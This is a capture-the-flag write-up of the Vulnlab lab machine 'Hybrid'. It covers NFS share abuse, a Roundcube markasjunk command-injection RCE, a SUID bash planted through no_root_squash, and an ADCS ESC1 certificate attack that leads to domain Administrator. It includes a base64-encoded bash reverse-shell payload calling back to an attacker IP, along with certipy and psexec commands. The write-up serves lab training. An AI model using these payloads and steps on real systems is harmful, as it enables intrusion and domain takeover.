 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/hybrid/logo.png
date: 2024-06-01 09:45:47+07:00
modified: 2024-06-01 09:45:47+07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Hybrid, VulnLab, chain, ADCS, certipy, NFS, roundcube, SUID, no-root-squash, Writeup]
title: Hybrid - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)


Hybrid is an **easy** difficulty machine, Where I exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

***Mail01.hybrid.vl***
```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```
***DC01.hybrid.vl***
```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

# Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via the Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/hybrid/17.png)

# DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cw<snip>' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cw<snip>' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c52<snip>' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/23.png)


Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/hybrid/025.png)

![](https://photos.squarezero.dev/file/abir-images/hybrid/25.png)

# Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/hybrid/26.png)